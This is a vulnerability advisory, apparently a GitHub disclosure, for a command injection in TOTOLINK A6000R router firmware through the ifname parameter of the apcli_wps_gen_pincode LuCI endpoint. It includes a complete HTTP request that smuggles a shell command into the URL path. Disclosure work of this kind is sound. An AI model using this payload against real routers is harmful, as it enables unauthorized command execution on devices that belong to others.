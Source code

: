 # TOTOLINK A6000R V1.0.1-B20201211.2000 Command Injection (apcli_wps_gen_pincode)

## Product Information

- Device: TOTOlink A6000R
- Firmware Version: V1.0.1-B20201211.2000
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/202/ids/36.html

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `apcli_wps_gen_pincode` function via the `ifname` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/apcli_wps_gen_pincode/arg`

![](./3.png)



## Payload

We can trigger this vulnerability by injecting the `ls>333.txt` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/apcli_wps_gen_pincode/;ls>333.txt; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=80c79bd6ad9bfba9656b7a8bee2a988f
```

![](./4.png)

After the injection, we can verify the result.

![](./5.png)
